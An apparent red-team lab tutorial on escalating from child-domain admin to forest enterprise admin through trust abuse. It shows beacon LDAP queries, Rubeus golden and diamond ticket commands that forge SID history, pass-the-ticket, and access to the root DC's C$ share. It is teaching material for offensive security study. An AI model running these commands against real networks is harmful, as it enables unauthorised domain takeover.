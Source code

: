 
When a new domain is added to an existing tree, a two-way transitive trust is automatically created between it (the child) and its parent domain.  It doesn't matter how far you go down - child.domain.com, grandchild.child.domain.com, or greatgrandchild.grandchild.child.domain.com - because these trusts are transitive, there is always an implicit two-way trust between all of these child domains, and the tree root (domain.com).

Querying the TDO shows a bidirectional trust with contoso.com.

```powershell
beacon> ldapsearch (objectClass=trustedDomain)

name: contoso.com
trustDirection: 3
trustAttributes: 32
flatName: CONTOSO
```

If an adversary is able to gain domain admin privileges in any child domain, they can elevate their privileges to that of enterprise admin in the forest.  This is achieved by forging a golden ticket with a special attributes called SID History, which was designed to support migration scenarios where a user would be moved from one domain to another.  To preserve access to resources in the 'old' domain, the user's previous SID would be added to the SID History of their new account.  When creating a ticket to abuse the trust relationship, the SID of a privileged group (e.g. enterprise admins) in the parent domain can be added to the ticket.

This ticket can be crafted entirely offline:

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:2eabe80498cf5c3c8465bb3d57798bc088567928bb1186f210c92c1eb79d66a9 /user:Administrator /domain:dublin.contoso.com /sid:S-1-5-21-690277740-3036021016-2883941857 /sids:S-1-5-21-3926355307-1661546229-813047887-519 /nowrap
```

Where:

- `/aes256` is the AES hash of the child domain's krbtgt account.
    
- `/user` is the user you want to impersonate.
    
- `/domain` is the child domain.
    
- `/sid` is the SID of the child domain.
    
- `/sids` is a list of SIDs you want in the ticket's SID history. **(519 = EA)**


> [!NOTE] Note
> You can get the parent's domain SID via LDAP by querying a domain controller within that domain.  Make sure to set the query base to that of the parent domain's distinguished name.
> ```powershell
>beacon> ldapsearch (objectClass=domain) --attributes objectSid --hostname lon-dc-1.contoso.com --dn DC=contoso,DC=com
>
> Binding to lon-dc-1.contoso.com
> [*] Distinguished name: DC=contoso,DC=com
[*] Filter: (objectClass=domain)
[*] Scope of search value: 1
[*] Returning specific attribute(s): objectSid
> --------------------
objectSid: S-1-5-21-3926355307-1661546229-813047887

Or it can be created using the diamond technique:

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /sids:S-1-5-21-3926355307-1661546229-813047887-519 /krbkey:2eabe80498cf5c3c8465bb3d57798bc088567928bb1186f210c92c1eb79d66a9 /nowrap
```

Where:

- `/tgtdeleg` gets a usable TGT for the current user.
    
- `/ticketuser` is the user you want to impersonate.
    
- `/ticketuserid` is the RID of the impersonated user.
    
- `/sids` is a list of SIDs you want in the ticket's SID history.
    
- `/krbkey` is the AES256 hash of the child domain's krbtgt account.

Once the ticket is injected into a logon session, it can be used to access the forest root domain controller.

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:
```

```powershell
beacon> ls \\lon-dc-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/24/2025 13:33:39   $Recycle.Bin
          dir     01/23/2025 13:57:51   $WinREAgent
          dir     01/23/2025 13:47:37   Documents and Settings
          dir     05/08/2021 09:20:24   PerfLogs
          dir     01/23/2025 15:46:17   Program Files
          dir     01/23/2025 15:46:18   Program Files (x86)
          dir     03/03/2025 13:38:06   ProgramData
          dir     01/23/2025 13:47:43   Recovery
          dir     01/29/2025 10:42:20   System Volume Information
          dir     01/24/2025 13:33:21   Users
          dir     01/24/2025 13:49:56   Windows
 12kb     fil     03/13/2025 05:44:35   DumpStack.log.tmp
 1gb      fil     03/13/2025 05:44:35   pagefile.sys
```